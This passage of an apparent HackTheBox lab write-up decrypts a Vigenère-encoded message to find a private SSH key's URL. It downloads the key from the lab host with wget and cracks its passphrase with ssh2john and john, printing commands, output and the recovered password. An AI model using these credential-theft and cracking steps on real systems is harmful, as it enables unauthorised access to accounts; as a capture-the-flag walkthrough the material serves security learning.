 - Input: `wejmvsefbtkqalzqbrsornlcwihsf`
- Output: `orestishackingforfunandprofit`
- Key: `infuckmybrainfuckmybrainfuckm`

The key is `fuckmybrain` which keeps repeating for as long the message is.

We can now use this website to decrypt the messages by having them as the input and `fuckmybrain` as the key.

- Input: `Ybgbq wpl gw lto udgnju fcpp, C jybc zfu zrryolqp zfuz xjs rkeqxfrl ojwceec J uovg :) mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr`
- Key: `fuckmybrain`
- Output: `There you go you stupid fuck, I hope you remember your key password because I dont :) https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa`

We can see that all the assumptions we made at the start came true and we can now download the `id_rsa` file.

```bash
luc@kali:~/HTB/Brainfuck$ wget https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa --no-check-certificate
```

## Cracking the id_rsa file

We can try loggin in by using the `id_rsa` file.

```bash
luc@kali:~/HTB/Brainfuck$ ssh orestis@10.10.10.17 -i id_rsa
load pubkey "id_rsa": invalid format
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
orestis@10.10.10.17: Permission denied (publickey).
luc@kali:~/HTB/Brainfuck$ chmod 600 id_rsa
luc@kali:~/HTB/Brainfuck$ ssh orestis@10.10.10.17 -i id_rsa
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa':
orestis@10.10.10.17: Permission denied (publickey).
```

We'll need to crack this `id_rsa` file.

```bash
luc@kali:~/HTB/Brainfuck$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.john
luc@kali:~/HTB/Brainfuck$ john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-06-17 01:56) 0.3952g/s 5668Kp/s 5668Kc/s 5668KC/sa6_123..*7¡Vamos!
Session completed
```
